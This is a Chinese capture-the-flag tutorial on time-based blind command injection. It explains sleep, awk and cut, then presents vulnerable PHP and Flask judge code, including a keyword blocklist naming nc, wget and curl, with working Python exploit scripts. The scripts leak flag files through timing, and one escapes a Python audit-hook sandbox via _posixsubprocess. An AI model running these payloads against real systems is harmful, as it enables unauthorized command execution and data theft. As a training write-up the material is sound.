



# 命令行盲注学习-先知社区

> **来源**: https://xz.aliyun.com/news/17010  
> **文章ID**: 17010

---

# 命令行盲注学习

## 前言

盲注一般是用于无回显的情况，说到盲注，很多人都会想到的是SQL的盲注，而其中最常用的就是时间盲注，原理也很简单，就是通过响应时间来判断执行的结果。在 ctf 中，经常就会遇到无回显的情况，一般的思路就是打内存马或者弹shell，但是遇到不出网且对内存马所需函数进行限制的时候，时间盲注就是个不错的选择，其实时间盲注对于无回显的情况，基本上都能打，但是缺点就是比较耗费时间

## 常用命令解析

### sleep

基本语法

sleep NUMBER[SUFFIX]...

NUMBER 是暂停的时间长度，SUFFIX 是可选的时间单位，默认为秒（s），也可以为分钟（m），小时（h），天（d），可以写个sh脚本看一下

```
#!/bin/bash
echo "任务开始时间: $(date)"
sleep 5
echo "任务结束时间: $(date)"
```



### awk

基本语法

awk 'pattern { action }' input\_file

* pattern：匹配模式（可选），用于筛选行。
* action：对匹配的行执行的操作（可选）。
* input\_file：输入文件（可选，如果不指定则从标准输入读取）。

一些常用的awk命令

```
#打印文件的每一行
awk '{print}' filename
#打印文件的某一列，比如第一列
awk '{print $1}' filename
#打印包含 pattern 的行
awk '/pattern/ {print}' filename
#打印第一列是数字的行
awk '$1 ~ /^[0-9]+$/ {print}' filename
#将第一列内容输出到 output.txt 文件
awk '{print $1 > "output.txt"}' filename
```

用的最多的还是

awk "NR==x" filename

NR：awk 的内置变量，表示当前处理的行号（Number of Record），这条命令也就是打印出 x 行的内容

### cut

基本语法

cut OPTION... [FILE]...

* OPTION：指定提取方式（如按字段、字符或字节）。
* FILE：输入文件（如果不指定，则从标准输入读取）。

**常用选项**

|  |  |
| --- | --- |
| **选项** | **说明** |
| -d | 指定字段分隔符（默认是制表符）。 |
| -f | 指定要提取的字段（列），可以是单个字段或多个字段（用逗号分隔）。 |
| -c | 按字符位置提取内容。 |
| -b | 按字节位置提取内容（通常与 -c 类似，但在多字节字符集中可能不同）。 |
| --complement | 反向选择，提取未指定的部分。 |

cut -c 1 会提取出每一行的第一个字符，常搭配着 awk 命令使用

### 总结

经过以上的一些分析，那么脚本的思路就会清晰了，我们可以用 awk 命令配合 cut 命令来获得我们想要的指定行列的字符串，再将其与测试字符集比对，如果正确就 sleep ，错误就测试下一个字符集中的字符，大概的payload

if [ `ls / -1 | awk "NR==1" | cut -c 1` == "b" ];then sleep 5;fi

ls / -1 代表结果自动换行，fi 就是 if 语句的结尾，以上 payload 的意思就是如果 ls / 第一个字符为b则延迟5秒，接下来写脚本自动跑就好了，拿两个例题试一下

## 例题

### [ctfshow]web139

源码

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

可以看到最后是 exec ，没有回显，而且一般外带和弹 shell 都被限制了，刚好cut，sleep等常用的时间盲注却没有过滤，直接打时间盲注，这里就不考虑文件名有其他不常见字符的因素了，如果跑不出来改下字符集就好，因为过滤了大括号，字符集中就不加了，如果匹配不到，就用 ~来占位，poc

```
import requests
import time
import string

char_set = string.digits + string.ascii_lowercase + "-_"
result = ""

for j in range(1, 99):
    matched = False
    for n in char_set:
        payload = f"if [ `cat /f149_15_h3r3 |cut -c {j}` == {n} ];then sleep 2;fi"
        url = f"http://16ff501a-9020-4c95-b319-64ff581b6fe5.challenge.ctf.show?c={payload}"

        start_time = time.time()
        try:
            requests.get(url)
        except requests.RequestException as e:
            print(f"请求错误: {e}")
            continue

        elapsed_time = time.time() - start_time
        //判断延迟是否大于2s 
        if elapsed_time > 2:
            result += n
            print(result)
            matched = True
            break

    if not matched:
        result += "~"
        print(result)
```



### [AliyunCTF2025]ezoj

/source 拿到源码

```
import os
import subprocess
import uuid
import json
from flask import Flask, request, jsonify, send_file
from pathlib import Path

app = Flask(__name__)

SUBMISSIONS_PATH = Path("./submissions")
PROBLEMS_PATH = Path("./problems")

SUBMISSIONS_PATH.mkdir(parents=True, exist_ok=True)

CODE_TEMPLATE = """
import sys
import math
import collections
import queue
import heapq
import bisect

def audit_checker(event,args):
    if not event in ["import","time.sleep","builtins.input","builtins.input/result"]:
        raise RuntimeError

sys.addaudithook(audit_checker)


"""


class OJTimeLimitExceed(Exception):
    pass


class OJRuntimeError(Exception):
    pass


@app.route("/")
def index():
    return send_file("static/index.html")


@app.route("/source")
def source():
    return send_file("server.py")


@app.route("/api/problems")
def list_problems():
    problems_dir = PROBLEMS_PATH
    problems = []
    for problem in problems_dir.iterdir():
        problem_config_file = problem / "problem.json"
        if not problem_config_file.exists():
            continue

        problem_config = json.load(problem_config_file.open("r"))
        problem = {
            "problem_id": problem.name,
            "name": problem_config["name"],
            "description": problem_config["description"],
        }
        problems.append(problem)

    problems = sorted(problems, key=lambda x: x["problem_id"])

    problems = {"problems": problems}
    return jsonify(problems), 200


@app.route("/api/submit", methods=["POST"])
def submit_code():
    try:
        data = request.get_json()
        code = data.get("code")
        problem_id = data.get("problem_id")

        if code is None or problem_id is None:
            return (
                jsonify({"status": "ER", "message": "Missing 'code' or 'problem_id'"}),
                400,
            )

        problem_id = str(int(problem_id))
        problem_dir = PROBLEMS_PATH / problem_id
        if not problem_dir.exists():
            return (
                jsonify(
                    {"status": "ER", "message": f"Problem ID {problem_id} not found!"}
                ),
                404,
            )

        code_filename = SUBMISSIONS_PATH / f"submission_{uuid.uuid4()}.py"
        with open(code_filename, "w") as code_file:
            code = CODE_TEMPLATE + code
            code_file.write(code)

        result = judge(code_filename, problem_dir)

        code_filename.unlink()

        return jsonify(result)

    except Exception as e:
        return jsonify({"status": "ER", "message": str(e)}), 500


def judge(code_filename, problem_dir):
    test_files = sorted(problem_dir.glob("*.input"))
    total_tests = len(test_files)
    passed_tests = 0

    try:
        for test_file in test_files:
            input_file = test_file
            expected_output_file = problem_dir / f"{test_file.stem}.output"

            if not expected_output_file.exists():
                continue

            case_passed = run_code(code_filename, input_file, expected_output_file)

            if case_passed:
                passed_tests += 1

        if passed_tests == total_tests:
            return {"status": "AC", "message": f"Accepted"}
        else:
            return {
                "status": "WA",
                "message": f"Wrang Answer: pass({passed_tests}/{total_tests})",
            }
    except OJRuntimeError as e:
        return {"status": "RE", "message": f"Runtime Error: ret={e.args[0]}"}
    except OJTimeLimitExceed:
        return {"status": "TLE", "message": "Time Limit Exceed"}


def run_code(code_filename, input_file, expected_output_file):
    with open(input_file, "r") as infile, open(
        expected_output_file, "r"
    ) as expected_output:
        expected_output_content = expected_output.read().strip()

        process = subprocess.Popen(
            ["python3", code_filename],
            stdin=infile,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True,
        )

        try:
            stdout, stderr = process.communicate(timeout=5)
        except subprocess.TimeoutExpired:
            process.kill()
            raise OJTimeLimitExceed

        if process.returncode != 0:
            raise OJRuntimeError(process.returncode)

        if stdout.strip() == expected_output_content:
            return True
        else:
            return False


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

addaudithook 好绕，随便搜个poc就能绕过：<https://xz.aliyun.com/news/15665?time__1311=n4%2Bx07vxRD9DnD0x0vObDyl7di%3D%3DGO8RDRgbD&u_atoken=a02449fe2008fe936beca38ee20fd421&u_asig=1a0c381017402256357466980e0035>

```
import os
import _posixsubprocess

_posixsubprocess.fork_exec([b"/bin/sh","-c","whoami"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

允许用 time.sleep 函数，可以打盲注，有个限制是不能超过5s，打的时候注意一下就好了

原本想的是用python代码来盲注，结果一直找不到能用的模块和函数，后面索性直接用命令行来盲注了，直接命令行盲注即可，这里换个方法，用sed来匹配行，就不用awk了

poc

```
import requests
import time

url = "http://121.41.238.106:35898/api/submit"

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}-"

flag = ""
for line in range(1, 50):
    for i in range(0, 50):
        for char in charset:
            payload = f"""
import os
import _posixsubprocess
import time

_posixsubprocess.fork_exec([b"/bin/sh", b"-c", b"if [ $(cat /flag* | sed -n '{line}p' | cut -c {i+1}) = '{char}' ]; then sleep 2; fi"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, False, None, None, None, -1, None, False)
"""

            start_time = time.time()

            resp = requests.post(
                url,
                json={"problem_id": "0", "code": payload},
            )

            end_time = time.time()
            delay = end_time - start_time

            if delay > 2:
                flag += char
                print(flag)
                break
        else:
            flag += "
"
            print(f"{flag}")
            break
```


